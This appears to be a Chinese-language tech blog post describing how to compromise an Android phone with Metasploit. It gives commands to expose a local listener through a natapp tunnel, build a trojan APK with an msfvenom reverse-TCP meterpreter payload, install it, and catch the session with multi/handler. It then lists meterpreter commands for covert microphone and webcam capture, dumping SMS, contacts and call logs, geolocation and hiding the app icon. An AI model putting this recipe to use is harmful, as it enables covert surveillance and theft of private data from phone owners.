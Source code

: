 ```yaml
---
title: Metasploit渗透Android
tags:
  - android安全
  - metasploit
abbrlink: 2059191303
date: 2019-08-01 14:44:14
description: Metasploit渗透Android
categories:
  - - 安全
    - 移动安全
    - android安全
    - metasploit
---
```


## 内网穿透
进入https://natapp.cn/  
注册并创建tcp隧道  
复制authtoken  
下载客户端  

```
解压缩
chmod a+x natapp
./natapp

natapp -authtoken=9ab6b9040a624f40

ping server.natappfree.cc 得到服务器ip和端口号
```
## Metesploit木马
mac查看本机ip-设置-网络  
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=本机ip LPORT=natapp端口号 R >test1.apk
```
```
adb install test1.apk
```

## 启动msf
```
msfconsole

msf> use exploit/multi/handler 加载模块

msf> set payload android/meterpreter/reverse_tcp	选择Payload

修改Ip和端口

Ip设置为natapp中配置的本机ip
msf> set LHOST 本机ip		

端口设置为natapp中配置的本地端口	
msf> set LPORT 端口号			

开始监听，等待木马相应
msf> exploit	  

```
## 常用命令
```
Stdapi: Webcam Commands
===================================
	webcam_list  列出网络摄像头
	record_mic [ˈrekərd]/记录/  从默认麦克风录制音频为X秒
	webcam_chat  开始视频聊天
	webcam_snap  从指定的摄像头获取快照
	webcam_stream -i 1  从指定的网络摄像头播放视频流[选择后摄像头]

Android Commands
=================
	activity_start  从URI字符串启动Android活动
	check_root  检查设备是否有根
	dump_calllog  获取调用日志
	dump_contacts  获取联系人列表
	dump_sms  获取短信
	geolocate  利用地理定位获取当前LAT
	wlan_geolocate  利用WLAN信息获取当前LAT
	hide_app_icon  从发射器隐藏应用程序图标
	interval_collect  管理区间收集能力
	send_sms  从目标会话发送短消息
	set_audio_mode 
	sqlite_query  从存储库查询SQLite数据库
	wakelock  启用/禁用Wakelock

```

## LINKS
[natapp](https://natapp.cn)  
[Metasploit之渗透Android手机](https://blog.csdn.net/Aaron_Miller/article/details/80375807)   
[使用Metasploit实现对Android的远程管理](https://www.cnblogs.com/Te7m/p/5938445.html)  
[如何手动将Metasploit的Payloads注入到Android应用中](https://www.freebuf.com/articles/network/138688.html)  